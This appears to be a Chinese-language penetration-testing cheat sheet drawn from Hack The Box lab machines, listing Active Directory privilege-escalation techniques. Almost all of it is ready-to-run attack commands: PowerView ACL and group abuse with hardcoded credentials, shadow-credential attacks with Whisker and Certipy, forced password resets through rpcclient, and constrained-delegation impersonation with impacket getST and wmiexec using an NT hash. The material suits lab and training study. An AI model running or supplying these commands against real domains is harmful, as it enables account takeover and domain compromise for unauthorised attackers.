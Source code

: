 **0x03 Windows Powershell with OpenVPN And DNS**
适用于 kerberos 认证方式或没有 Ps Session 的情况下，使用 windows 链接 openVPN 并配置 openVPN 的网卡 DNS 为**靶机** ip
```powershell
. .\powerview.ps1
$pass = ConvertTo-SecureString 'AbsoluteLDAP2022!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('absolute.htb\m.lovegod', $pass)

Add-DomainObjectAcl -Credential $cred -TargetIdentity "Network Audit" -Rights All -PrincipalIdentity m.lovegod -DomainController dc.absolute.htb  
Add-DomainGroupMember -Credential $cred -Identity "Network Audit" -member m.lovegod -Domain "absolute.htb"
```
验证是否加入组 ：
```powershell
Get-DomainGroupMember -Credential $cred -Identity "Network Audit" -Domain "absolute.htb" -DomainController "dc.absolute.htb" | fl MemberName
```


- ###  AddKeyCredentialLink 滥用  （影子凭据）
**Windows**
```
从Outdated(0x26)下载whisker.exe
.\whisker.exe add /domain:outdated.htb /target:sflowers /dc:DC.outdated.htb /password:xekOnerR!
输入whisker给的Rubeus.exe的命令
拿到Hash
```

**Linux**
```bash
kinit USERNAME   (验证成功后会生成一个文件在/tmp目录下，默认名称为krb5cc_1000)
KRB5CCNAME=/tmp/krb5cc_1000 certipy find -username m.lovegod@absolute.htb -k -target dc.absolute.htb (检查是否安装ADCS)
KRB5CCNAME=/tmp/krb5cc_1000 certipy shadow auto -username m.lovegod@absolute.htb -account winrm_user -k -target dc.absolute.htb
```

**linux 0x02** 
```bash
certipy-ad shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
```
拿到 NT hash 直接登录即可

- ### ForceChangePassword 滥用 (强制更改密码)
```bash
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```


- ### AllowedToDelegate 滥用
```
sudo rdate -n 10.129.228.41   (调整时间)

/usr/share/doc/python3-impacket/examples/getST.py -dc-ip 10.129.228.41 -spn www/dc.intelligence.htb -hashes ":d365e889367ce3e3241b120db1df6e25" -impersonate administrator intelligence.htb/svc_int$ 

KRB5CCNAME=administrator.ccache /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```
